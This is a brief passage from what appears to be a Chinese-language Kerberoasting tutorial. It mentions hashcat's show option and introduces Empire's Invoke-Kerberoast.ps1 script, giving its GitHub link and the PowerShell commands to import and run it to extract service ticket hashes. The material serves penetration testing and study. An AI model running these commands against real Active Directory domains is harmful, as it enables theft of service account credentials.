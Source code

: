 [![](assets/1708919803-1bc25721bbb28c57c8dbf4649beb7dfe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142137-f8bae4ce-ce25-1.png)

`hashcat`有一个特点，当破解成功后第二次破解不会再重新破解，使用`show`命令来显示

### Invoke-kerberoast.ps1 脚本

`Invoke-kerberoast.ps1`是`empire`中集成的脚本，可以自动发现 SPN，提取 TGS 并且转储服务 HASH

```bash
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

```bash
Import-Module .\Invoke-kerberoast.ps1 
Invoke-kerberoast
```
